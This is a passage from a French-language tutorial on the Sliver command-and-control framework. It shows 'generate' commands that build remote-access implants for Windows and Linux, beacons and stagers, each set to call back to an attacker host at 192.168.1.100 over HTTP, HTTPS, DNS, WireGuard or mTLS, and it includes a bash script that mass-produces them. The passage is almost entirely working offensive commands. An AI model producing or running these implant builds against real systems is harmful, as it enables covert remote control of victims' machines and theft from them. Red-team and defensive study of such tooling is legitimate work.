 ### 6.2 Communication alternatives
```bash
# HTTP
generate --http 192.168.1.100:80 --os windows --format exe --save /tmp/http_payload.exe

# HTTPS
generate --https 192.168.1.100:443 --os windows --format exe --save /tmp/https_payload.exe

# DNS
generate --dns example.com --os windows --format exe --save /tmp/dns_payload.exe

# WireGuard
generate --wg 192.168.1.100:51820 --os windows --format exe --save /tmp/wg_payload.exe
```

---

## 7. Exemples Pratiques

### 7.1 Script de génération multiple
```bash
#!/bin/bash
# Generation de payloads pour différentes cibles

LHOST="192.168.1.100"
LPORT="443"

echo "=== Génération de payloads Silver C2 ==="

# Windows targets
echo "Génération payloads Windows..."
generate --mtls $LHOST:$LPORT --os windows --arch amd64 --format exe --save /tmp/win64.exe
generate --mtls $LHOST:$LPORT --os windows --arch 386 --format exe --save /tmp/win32.exe
generate --mtls $LHOST:$LPORT --os windows --arch amd64 --format shared --save /tmp/win64.dll

# Linux targets  
echo "Génération payloads Linux..."
generate --mtls $LHOST:$LPORT --os linux --arch amd64 --format elf --save /tmp/linux64
generate --mtls $LHOST:$LPORT --os linux --arch 386 --format elf --save /tmp/linux32

# Beacons
echo "Génération beacons..."
generate beacon --mtls $LHOST:$LPORT --os windows --arch amd64 --format exe --jitter 30s --save /tmp/beacon.exe

# Stagers
echo "Génération stagers..."
generate stager --lhost $LHOST --lport $LPORT --format exe --arch amd64 --save /tmp/stager.exe

echo "Génération terminée!"
ls -la /tmp/*.exe /tmp/linux* /tmp/*.dll 2>/dev/null
```
